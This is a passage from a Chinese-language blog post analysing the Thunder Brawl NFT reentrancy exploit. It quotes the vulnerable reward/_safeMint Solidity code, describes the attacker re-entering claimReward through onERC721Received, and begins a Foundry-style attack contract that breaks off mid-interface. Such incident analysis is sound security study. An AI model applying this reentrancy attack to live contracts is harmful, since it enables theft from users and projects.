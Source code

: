 ```solidity
                }
                delete winners[_ID][_player];
            } else {
                if (_rewardStatus == true) {
                    sendRewardDys();
                }
            }
            rewardStatus = false;
        }
    }
```

3. 接下来进入Thunderbrawl Roulette (THBR)中看一下reward函数的逻辑

```solidity
  function reward(address to,uint256 _mintAmount) external {
        uint256 supply = totalSupply();
        uint256 rewardSupply = rewardTotal;
        require(rewardSupply <= rewardSize,"");
        for (uint256 i = 1; i <= _mintAmount; i++) {          
          _safeMint(to, supply + i); 
          rewardTotal++;         
        }
  }
//上述的RewardStatus攻击者可以操控，这里攻击者将获得NFT奖励
  function _safeMint(
        address to,
        uint256 tokenId,
        bytes memory data
    ) internal virtual {
        _mint(to, tokenId);
        require(
            _checkOnERC721Received(address(0), to, tokenId, data),
            "ERC721: transfer to non ERC721Receiver implementer"
        );
    }
```

4. 这里给攻击合约发送NFT奖励的时候，会触发攻击者的onERC721Received函数，如下图所示

![image-20240228205826174](https://gitee.com/Emmanuel_scb/blogimage/raw/master/img/202402282058873.png)

5. 继续观察phalcon的攻击序列，在onERC721Received中攻击者进行重入，再次调用了claimReward函数，传入的参数与之前一模一样，这时攻击者再次获利，重复进入了4次

![image-20240228210235520](https://gitee.com/Emmanuel_scb/blogimage/raw/master/img/202402282102830.png)

## 3. Thunder Brawl攻击合约

根据Defihacklab的Foundry仿写的攻击合约代码

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

interface IERC721Receiver {
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4);
}
interface HouseWallet{
    function winners(uint256 id, address player) view external returns(uint256);
    function claimReward(
```